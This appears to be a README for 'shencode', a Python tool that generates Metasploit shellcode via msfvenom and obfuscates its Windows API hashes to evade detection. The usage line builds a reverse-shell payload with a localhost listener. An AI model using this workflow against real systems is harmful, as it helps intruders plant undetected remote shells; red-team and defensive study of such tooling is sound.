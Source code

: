 # shencode
automation scr ipt for creating and obfuscating metasploit shellcode

![shencode-1.png](shencode-1.png)

## Features

### Version 0.2

- build shellcode with msfvenom
- searching for hashed Windows API functions
- change ROR13 Hash to ROL Hash with individual Key
- Raw and formatted output (C++,C#, C inline ASM, Powershell, Python, Hex)

## ToDo

- choose between building a shellcode and use an existing one
- write shellcode in a template file (.cpp)
- automatical compile feature
- Use PATH for better msfvenom integration
- object oriented rewrite for better module integration

## How to use

`python shencode.py --payload windows/shell_reverse_tcp --arg1 "LHOST=127.0.0.1" --arg2 "LPORT=4443" --key 33 --outputformat "c" [--showmod] [--decompile]`

Please change the metasploit path in line 8. This will be fixed in the future.

`msfvenom_path = "c:\\metasploit-framework\\bin\\msfvenom.bat"`

### Parameter

- `--payload` - create a payload with msfvenom, use `--arg1` and `--arg2` for command line arguments
- `--key` - ROL Key hash API functions
- `--outputformat` - c, cs, casm, ps1, py, hex
- `--showmod` - lists changed bytes
- `--decompile` - decompile

## Credits

The encoding part is initially taken from [bordergate.co.uk](https://www.bordergate.co.uk/function-name-hashing/). Great work!
